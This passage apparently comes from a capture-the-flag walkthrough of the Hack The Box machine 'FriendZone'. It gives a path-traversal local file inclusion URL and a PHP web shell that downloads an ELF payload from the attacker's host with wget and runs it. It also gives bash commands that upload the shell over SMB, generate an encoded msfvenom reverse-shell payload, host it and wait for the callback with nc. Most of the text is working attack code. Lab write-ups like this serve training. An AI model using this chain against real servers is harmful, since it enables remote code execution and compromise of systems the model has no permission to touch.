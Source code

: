Next browse to the following link:

- https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../../../../../../../../../../../../../../etc/Development/bubba
- **NOTE:** the number of `../` used isn't important and is used to just get to `/` no matter where this PHP code may be running from.

Now the page includes the output `test`! Next replace `bubba.php` with the following simple PHP web shell:

- **NOTE:** This assumes that the target has `wget`, which is a common enough linux utility.

```php
<?php
function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
executeCommand('wget http://10.10.14.13/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &');
?>
```

And generate `bubba.elf` with the following, upload it & host it:

```bash
# upload payload
smbclient -U '%' -N \\\\10.10.10.123\\Development
put bubba.php
quit
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.13 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
sudo python3 -m http.server 80
# wait for the callback
nc -nvlp 6969
```
